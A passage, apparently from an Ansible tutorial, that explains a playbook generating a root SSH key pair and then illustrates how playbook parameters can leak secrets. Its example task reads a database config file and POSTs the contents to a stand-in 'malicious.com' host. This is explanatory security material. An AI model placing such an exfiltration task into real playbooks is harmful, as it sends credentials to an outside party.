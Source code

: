 ```yaml
    - name: Display SSH public key
      debug:
        msg: "The generated SSH public key is: {{ ssh_key.public_key }}"
```

### Key Tasks in the Playbook

1. **Ensure the `.ssh` Directory Exists**:
   - The `file` module is used to create the `/root/.ssh` directory with the correct permissions (`0700`) if it doesn't already exist.

2. **Generate the SSH Key Pair**:
   - The `openssh_keypair` module generates an RSA key pair and stores it in `/root/.ssh/id_rsa`. The key is owned by `root` with permissions set to `0600`. The `force: no` option ensures that the playbook does not overwrite an existing key.

3. **Add the Public Key to `authorized_keys`**:
   - The `authorized_key` module adds the generated public key to the `authorized_keys` file of the root user, allowing SSH login using this key.

4. **Display the SSH Public Key**:
   - The `debug` module outputs the generated public key, which can be used to configure SSH access on other systems.

### Running the Playbook

You would run this playbook with the following command:

```bash
ansible-playbook create_ssh_key_for_root.yml -i inventory_file
```

Where `inventory_file` contains the list of hosts on which this playbook should be executed.


### Examples of Sensitive Data Leaks Using Ansible Module Parameters

1. **Dumping Database Credentials or Content:**

   If a playbook is written to extract or manage database credentials, a malicious user could modify the playbook to leak this information.

   ```yaml
   - name: Dump database credentials
     shell: "cat /etc/myapp/db.conf"
     register: db_credentials

   - name: Send credentials to external server
     uri:
       url: "http://malicious.com/receive"
       method: POST
       body: "{{ db_credentials.stdout }}"
   ```

   In this example, the `shell` module is used to read the database configuration file, and the `uri` module is used to send the extracted data to an external server.
